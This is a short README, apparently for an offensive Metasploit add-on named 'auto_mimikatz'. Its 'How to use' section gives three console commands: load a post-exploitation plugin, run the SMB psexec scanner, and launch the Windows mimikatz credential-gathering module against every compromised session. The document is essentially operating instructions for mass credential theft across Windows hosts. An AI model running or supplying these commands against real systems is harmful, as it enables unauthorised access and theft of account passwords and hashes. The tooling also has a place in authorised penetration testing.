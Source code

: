 auto_mimikatz
=============

# How to use

load post_auto

use auxiliary/scanner/smb/psexec_scanner

multi_post -m post/windows/gather/mimikatz -s all
